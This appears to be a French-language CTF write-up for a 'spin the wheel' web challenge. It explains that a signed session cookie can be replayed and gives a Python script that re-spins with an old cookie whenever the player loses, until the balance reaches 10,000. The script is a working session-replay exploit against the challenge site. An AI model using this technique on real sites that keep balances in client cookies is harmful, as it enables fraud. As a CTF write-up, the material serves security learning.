



# Challenge

## Enoncé 

```
Description (français)

Vous aimez les jeux de hasard? Eh bien, c'est votre jour de chance!
Soyez raisonnables...
Description (english)

Do you like games of chance? Well you're in luck!
Be reasonable...
Connexion
https://spinthewheel.c.unitedctf.ca


```

## Résolution 

En arrivant sur la page web, on découvre une magnifique ... roue de la fortune : 



En trifouillant le site, on remarque un cookie JWT : 



Malheureusement, il est signé, et l'on ne semble pas disposer de méthode pour déterminer le signature. 

Cependant, il nous est possible de tirer la roue avec un ancien cookie. Par conséquent, on peut faire un programme qui lance la roue jusqu'à obtenir 10,000$ en conservant notre ancien cookie si l'on perd. 


Voici le code qui le fait : 

```
import requests

# URL de la requête
url = 'https://spinthewheel.c.unitedctf.ca/spin'

# Les données à envoyer dans la requête POST
data = {}

# Le cookie de session
cookies = {
    'session': 'eyJiYWxhbmNlIjo2MzU2LCJ1aWQiOnsiIHUiOiIzZGVlMGI4M2IyNDE0MTg5YjZkMzhmNjgwMmUwZDlhYSJ9fQ.ZuvYFA.4giOZoqkOIjZDncLunQKCTxKjds'
}

# Envoi de la requête POST avec le cookie
response = requests.post(url, data=data, cookies=cookies)

current_amount = response.json().get('new_balance')
current_cookie = cookies

while current_amount < 10000:
    response = requests.post(url, data=data, cookies=current_cookie)
    amount = response.json().get('new_balance')
    cookie = response.cookies.get('session')
    if amount != 0:
        current_cookie = {'session': cookie}
        current_amount = amount
    print(current_amount)
    print(current_cookie)

```

On obtient alors : 

